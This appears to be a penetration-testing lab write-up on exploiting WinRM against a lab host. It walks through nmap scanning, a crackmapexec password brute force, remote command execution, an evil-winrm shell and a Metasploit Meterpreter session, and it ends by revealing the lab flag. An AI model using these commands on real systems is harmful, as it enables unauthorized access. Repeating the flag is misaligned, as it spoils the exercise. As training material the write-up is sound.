






# 🔬WinRM

## Lab 1

> 🔬 [WinRM: Exploitation with Metasploit](https://attackdefense.com/challengedetails?cid=2026)
>
> - Target IP: `10.4.30.175`
> - **WinRM** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
ping 10.4.30.175

nmap --top-ports 7000 10.4.30.175
```

```bash
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

```bash
nmap -sV -p 5985 10.4.30.175
```

```bash
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```



### CrackMapExec Brute-force

- Use [`crackmapexec`](https://www.kali.org/tools/crackmapexec/) tool to confirm WinRM is running on port `5985`

```bash
crackmapexec
```

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```



- Execute specific Windows commands

```bash
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"
```



### evil-WinRM Shell

- Get a command shell session using `evil-winrm` tool

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175
```



### Meterpreter Session

```bash
msfconsole
```

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS 10.4.30.175
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```



<details>
<summary>Reveal Flag: 🚩</summary>


`3c716f95616eec677a7078f92657a230`



</details>

------

